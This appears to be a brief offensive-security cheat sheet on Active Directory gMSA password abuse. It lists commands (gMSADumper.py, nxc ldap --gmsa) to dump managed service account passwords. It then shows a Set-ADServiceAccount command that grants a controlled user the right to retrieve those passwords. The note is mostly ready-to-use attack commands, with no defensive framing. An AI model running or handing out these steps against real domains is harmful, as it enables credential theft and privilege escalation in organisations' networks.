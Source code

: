 # gMSA Passwords:

Find users controled by gMSA Passwords (externaly from your machine), it also check users who can revel the passwords.

`gMSADumper.py -u <user you control> -p <password> -d <domain>` or `nxc ldap <ip> -u <user you control> -p <password> --gmsa`


If you have access to a internal powershell session (evil-winrm, for example) you can also check this information for a particular user:

`Get-ADServiceAccount -Identity <user controlled by gMSA Passwords> -Properties PrincipalsAllowedToRetrieveManagedPassword`


In case you have access, and permisions inside powershell session you can include yourself into the list of users who can revel the passwords:

`Set-ADServiceAccount -Identity <user controlled by gMSA Passwords> -PrincipalsAllowedToRetrieveManagedPassword <user you control>`


Then try to retrive passwords again with gMSADumper.py.
